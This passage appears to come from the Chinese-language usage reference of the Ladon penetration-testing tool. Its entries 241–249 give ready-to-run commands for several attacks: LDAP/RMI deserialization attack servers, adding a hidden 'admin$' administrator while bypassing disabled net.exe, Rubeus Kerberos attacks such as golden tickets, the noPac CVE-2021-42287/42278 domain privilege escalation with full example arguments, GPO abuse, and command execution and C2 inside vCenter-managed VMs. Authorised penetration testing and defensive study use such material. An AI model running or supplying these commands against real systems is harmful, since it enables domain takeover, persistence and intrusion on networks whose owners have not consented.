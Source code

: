 ##### 241 渗透专用WEB服务器LDAP反序列化
```Bash	
Ladon web 800 ldap=192.168.1.8:800
```

##### 242 渗透专用WEB服务器RMI反序列化
```Bash	
Ladon web 800 rmi=192.168.1.8
```

##### 243 API添加管理员(无视系统net、net1禁用)
```Bash	
Ladon AddAdmin admin$ 123456
```

##### 244 API添加用户(无视系统net、net1.exe禁用)
```Bash	
Ladon AddUser admin$ 123456
```

##### 245 API删除用户(无视系统net、net1.exe禁用)
```Bash	
Ladon DelUser admin$
```

##### 246 Rubeus域渗透 Kerberos攻击
比如TGT请求/ST请求/AS-REP Roasting/Kerberoasting/委派攻击/黄金票据/白银票据/钻石票据/蓝宝石票据等
```Bash	
Ladon Rubeus
```

##### 247 noPac域渗透 域内提权CVE-2021-42287/CVE-2021-42278
```Bash	
CVE-2021-42287/CVE-2021-42278 Scanner & Exploiter

/domain /user /pass argument needed for scanning
/dc /mAccount /nPassword argument needed for exploitation

Examples:
  Ladon.exe noPac scan -domain htb.local -user domain_user -pass 'Password123!'
  Ladon.exe noPac -dc dc02.htb.local -mAccount demo -mPassword Password123!
  Ladon.exe noPac -domain htb.local -user domain_user -pass 'Password123!' /dc dc02.htb.local /mAccount demo /mPassword Password123!
  Ladon.exe noPac -domain htb.local -user domain_user -pass 'Password123!' /dc dc02.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt
```

##### 248 SharpGPOAbuse
```Bash	
Ladon SharpGPOAbuse
```

##### 249 SharpSphere 与vCenter管理的虚拟机的来宾操作系统进行交互 执行命令
```Bash	
Ladon SharpSphere

  No verb selected.

  dump        Snapshot and download memory dump file

  list        List all VMs managed by this vCenter

  execute     Execute given command in target VM

  c2          Run C2 using C3's VMwareShareFile module

  upload      Upload file to target VM

```